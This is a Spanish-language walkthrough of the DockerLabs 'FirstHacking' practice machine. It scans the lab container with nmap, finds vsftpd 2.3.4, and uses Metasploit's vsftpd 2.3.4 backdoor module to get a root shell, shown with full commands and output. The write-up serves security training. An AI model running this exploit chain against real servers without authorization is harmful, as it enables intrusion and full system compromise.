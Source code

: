 #escalada #ftp #ssh #hydra #sudo-l #bash_-p 
Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "FirstHacking".
Una vez hecho , descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh firsthacking.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene 1 solo puerto abierto, el 21 (FTP):
```
Discovered open port 21/tcp on 172.17.0.2
```
Como no tenemos ni usuario ni contraseña, no podemos entrar directamente. No obstante, en el resultado anterior nos dice:
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
Por lo que vemos que tiene una version "vsftpd 2.3.4", asi que buscaremos en Metasploit a ver si hay alguna vulnerabilidad:
```
msf6 > search vsftpd 2.3.4
```
Y nos dice:
```
#  Name                                Disclosure Date  Rank Check  Description
-  ----                                -----------  --------   -----  ---------
0 exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  excellent  No  VSFTPD v2.3.4 Backdoor Command Execution
```
Como se puede observar hay un exploit de "Backdoor Command Execution", por lo que ahora solo tendremos que elegirlo y ver sus opciones:
```
msf6 > use 0   <==== Lo elegimos
[*] No payload configured, defaulting to cmd/unix/interact                                                 
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options   <=== Vemos sus opciones
```
Parece que solo vamos a necesitar poner la IP de la maquina (RHOSTS):
```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format
									   type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see
									   https://docs.metasploit.com/docs/using-met
                                       asploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)
```
Por lo que pondremos "set RHOSTS 172.17.0.2" y ejecutamos "run":
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
Y vemos lo siguiente:
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:35539 -> 172.17.0.2:6200) at 2024-07-07 23:25:21 +0200
```
Ahora si escribimos "whoami" veremos que somos root. No obstante, para obtener un prompt decente, escribiremos tambien "script /dev/null -c bash"
```
whoami
root

script /dev/null -c bash
Script started, file is /dev/null

root@527d8a48acab:~/vsftpd-2.3.4#
```
Y listo, ya estaria la maquina hecha :)
